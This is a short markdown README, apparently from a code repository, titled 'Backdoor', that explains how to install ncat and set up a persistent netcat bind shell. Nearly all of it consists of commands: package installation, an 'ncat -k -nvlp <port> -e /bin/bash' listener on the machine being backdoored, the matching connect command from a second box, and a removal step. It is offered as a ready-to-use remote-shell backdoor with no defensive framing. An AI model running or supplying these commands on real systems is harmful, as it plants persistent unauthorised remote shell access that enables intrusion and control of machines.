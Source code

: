 # Backdoor 
## Install ncat on the locat box
### Apt-get (Install)
'sudo apt-get update'
'sudo apt-get -y install ncat'

### Apt (Install)
'sudo apt update'
'sudo apt -y install ncat'

### Aptitude (Install)
'sudo aptitude update'
'sudo aptitude -y install ncat'

## Local box that will be backdoored into 
'ncat -k -nvlp <port> -e "/bin/bash" --allow <ip's go here>

## Box that will backdoor into local machine 
"'ncat -nv <ip address of local box> <port>'"



### If ncat needs to be deleated
'sudo apt-get -y autoremove --purge ncat'

